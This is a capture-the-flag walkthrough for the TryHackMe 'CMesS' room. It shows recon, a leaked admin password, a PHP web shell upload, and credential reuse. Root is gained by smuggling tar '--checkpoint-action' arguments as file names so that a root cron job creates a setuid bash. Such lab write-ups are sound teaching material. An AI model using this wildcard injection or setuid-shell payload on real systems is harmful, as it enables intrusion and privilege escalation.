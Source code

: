 # CMesS (THM)

- https://tryhackme.com/room/cmess
- Feb 27, 2023
- medium

---

## Intital Recon

- nmap result

1. 22/tcp - OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))
   - http-generator: Gila CMS
   - http-robots.txt: 3 disallowed entries
     - /src/ /themes/ /lib/
   - http-server-header: Apache/2.4.18 (Ubuntu)
   - http-title: Site doesn't have a title (text/html; charset=UTF-8).
   - Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- subdomain brute force
- add `cmess.thm` in /etc/hosts

```sh
ffuf -w /opt/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cmess.thm -H "Host: FUZZ.cmess.thm" -fw 522
```

- found `dev`
- `dev.cmess.thm` ->

```
Development Log
...
andre@cmess.thm
That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.

support@cmess.thm
Your password has been reset. Here: KPFTN_f2yxe%
```

## User Access

- login at `cmess.thm/admin`
- at admin panel
- Content -> File Manager -> upload php shell
- then listen with nc, and curl the `cmess.thm/assets/shell.php`

```
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *

```

```
╔══════════╣ Executable files potentially added by user (limit 70)
2020-02-06+18:54:07.1196134090 /opt/.password.bak
```

```sh
www-data@cmess:/$ cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6

www-data@cmess:/$ su andre
Password: UQfsdCB7aAP6

andre@cmess:/$

```

- to get ssh shell

  - inside local machine
    - create id_rsa, and id_rsa.pub
    - copy the content of id_rsa.pub
  - in remote shell,
    - create .ssh folder under andre home directory
    - paste the content of id_rsa.pub as authorized_keys

- enter ssh as andre user with id_rsa

## Root Access

- cron job that will run by root

```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

- cd into backup folder

```sh
andre@cmess:~/backup$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
andre@cmess:~/backup$ chmod +x runme.sh
andre@cmess:~/backup$ ls
note  runme.sh
andre@cmess:~/backup$ touch "/home/andre/backup/--checkpoint=1"
andre@cmess:~/backup$ touch "/home/andre/backup/--checkpoint-action=exec=sh runme.sh"

```

- wait for root to run the cron job
- after running, bash will appear in tmp folder

```sh
/tmp/bash -p
```

- will get root access

---
